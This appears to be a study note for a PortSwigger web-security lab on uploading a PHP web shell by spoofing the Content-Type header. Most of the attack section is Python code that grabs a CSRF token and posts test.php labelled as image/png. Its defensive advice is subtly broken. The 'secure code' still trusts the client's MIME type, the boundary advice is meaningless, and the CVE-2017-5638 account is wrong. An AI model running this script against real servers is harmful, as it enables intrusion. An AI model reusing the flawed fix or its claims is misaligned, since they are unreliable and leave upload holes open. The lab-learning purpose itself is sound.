


## File Upload Vulnerabilities and Web Shell Upload via Content Type Restriction Bypass

### Background Theory

File upload vulnerabilities occur when an application allows users to upload files to the server without proper validation or sanitization. This can lead to various security issues, including remote code execution (RCE), data leakage, and defacement attacks. One common scenario is the upload of a web shell, which is a malicious script that provides an attacker with a backdoor to execute arbitrary commands on the server.

### Understanding the Attack Scenario

In this scenario, we will demonstrate how an attacker can bypass content type restrictions to upload a web shell. The attack involves several steps:

1. **Extracting the CSRF Token**: Cross-Site Request Forgery (CSRF) tokens are used to protect against unauthorized actions. The attacker needs to extract this token to make the request appear legitimate.
2. **Crafting the Request**: The attacker crafts a multipart form request that includes the web shell file and other necessary parameters.
3. **Bypassing Content Type Restrictions**: By manipulating the `Content-Type` header, the attacker can bypass filters designed to restrict certain file types.

### Step-by-Step Mechanics

#### Extracting the CSRF Token

The first step is to extract the CSRF token from the server. This is typically done by making a GET request to the page where the form is located. The CSRF token is usually embedded in the HTML response.

```python
import requests

def get_csrf_token(url, session):
    response = session.get(url)
    # Parse the HTML to extract the CSRF token
    csrf_token = parse_html_for_csrf(response.text)
    return csrf_token

# Example usage
session = requests.Session()
csrf_token = get_csrf_token('https://example.com/my-account', session)
```

#### Crafting the Request

Next, the attacker needs to craft the multipart form request. This involves setting up the necessary parameters and boundaries for the request.

```python
import uuid

def create_multipart_request(csrf_token, user_id, file_path):
    boundary = uuid.uuid4().hex
    headers = {
        'Content-Type': f'multipart/form-data; boundary={boundary}'
    }
    
    with open(file_path, 'rb') as file:
        file_content = file.read()
    
    body = (
        f'--{boundary}\r\n'
        f'Content-Disposition: form-data; name="avatar"; filename="test.php"\r\n'
        f'Content-Type: image/png\r\n\r\n'
        f'{file_content.decode()}\r\n'
        f'--{boundary}\r\n'
        f'Content-Disposition: form-data; name="user"\r\n\r\n'
        f'{user_id}\r\n'
        f'--{boundary}\r\n'
        f'Content-Disposition: form-data; name="csrf_token"\r\n\r\n'
        f'{csrf_token}\r\n'
        f'--{boundary}--\r\n'
    )
    
    return headers, body

# Example usage
headers, body = create_multipart_request(csrf_token, 'user123', 'path/to/test.php')
```

#### Sending the Request

Finally, the attacker sends the crafted request to the server.

```python
response = session.post('https://example.com/upload', headers=headers, data=body)
print(response.status_code)
print(response.text)
```

### Real-World Examples

#### Recent CVEs and Breaches

One notable example of a file upload vulnerability leading to a web shell upload is the case of the Apache Struts framework. In 2017, a critical vulnerability (CVE-2017-5638) allowed attackers to execute arbitrary code by uploading a malicious JSP file. This led to several high-profile breaches, including the Equifax data breach.

### Diagrams

#### Network Topology



#### Request/Response Flow



### Common Pitfalls

1. **Insufficient Validation**: Not validating the file type or content can lead to successful uploads of malicious files.
2. **Predictable Boundaries**: Using predictable boundaries in multipart forms can make it easier for attackers to craft valid requests.
3. **Missing CSRF Tokens**: Failing to include CSRF tokens in forms can allow attackers to bypass CSRF protections.

### How to Prevent / Defend

#### Detection

To detect file upload vulnerabilities, you can use automated tools such as Burp Suite or OWASP ZAP to scan for insecure file handling practices. Additionally, monitoring logs for unusual file uploads can help identify potential attacks.

#### Prevention

1. **Validate File Types**: Ensure that only allowed file types can be uploaded. This can be done by checking the file extension and MIME type.
2. **Use Secure Boundaries**: Generate random boundaries for multipart forms to prevent attackers from crafting valid requests.
3. **Implement CSRF Protection**: Always include CSRF tokens in forms and validate them on the server-side.

#### Secure Coding Fixes

**Vulnerable Code**

```php
<?php
if ($_FILES['avatar']['tmp_name']) {
    move_uploaded_file($_FILES['avatar']['tmp_name'], '/uploads/' . $_FILES['avatar']['name']);
}
?>
```

**Secure Code**

```php
<?php
$allowed_types = ['image/jpeg', 'image/png'];
if (in_array($_FILES['avatar']['type'], $allowed_types)) {
    $filename = basename($_FILES['avatar']['name']);
    $destination = '/uploads/' . $filename;
    move_uploaded_file($_FILES['avatar']['tmp_name'], $destination);
}
?>
```

#### Configuration Hardening

Ensure that your web server and application server configurations are hardened to prevent unauthorized access. For example, disable directory listing and ensure that sensitive directories are not writable by the web server.

### Practice Labs

For hands-on practice with file upload vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs covering various aspects of web security, including file upload vulnerabilities.
- **OWASP Juice Shop**: An intentionally vulnerable web application for learning about modern web application security risks.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities for educational purposes.

By thoroughly understanding and practicing these concepts, you can better defend against file upload vulnerabilities and ensure the security of your web applications.

---
<!-- nav -->
[[03-File Upload Vulnerabilities Web Shell Upload via Content Type Restriction Bypass|File Upload Vulnerabilities Web Shell Upload via Content Type Restriction Bypass]] | [[Web Security (PortSwigger)/18-File Upload Vulnerabilities/03-Lab 2 Web shell upload via Content Type restriction bypass/00-Overview|Overview]] | [[Web Security (PortSwigger)/18-File Upload Vulnerabilities/03-Lab 2 Web shell upload via Content Type restriction bypass/05-File Upload Vulnerabilities|File Upload Vulnerabilities]]
